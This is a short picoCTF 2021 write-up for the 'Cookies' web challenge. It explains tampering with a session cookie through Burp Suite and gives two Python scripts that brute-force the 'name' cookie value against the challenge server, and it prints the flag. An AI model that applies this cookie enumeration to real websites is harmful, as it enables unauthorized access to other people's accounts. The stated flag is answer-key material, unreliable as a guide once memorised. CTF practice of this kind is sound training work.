





### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies


change the value of cookies


now use burpsute to get the flag 
position setting


set payload to numbers


and add grep match picoCTF{  to indentify flag

here is flag


flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```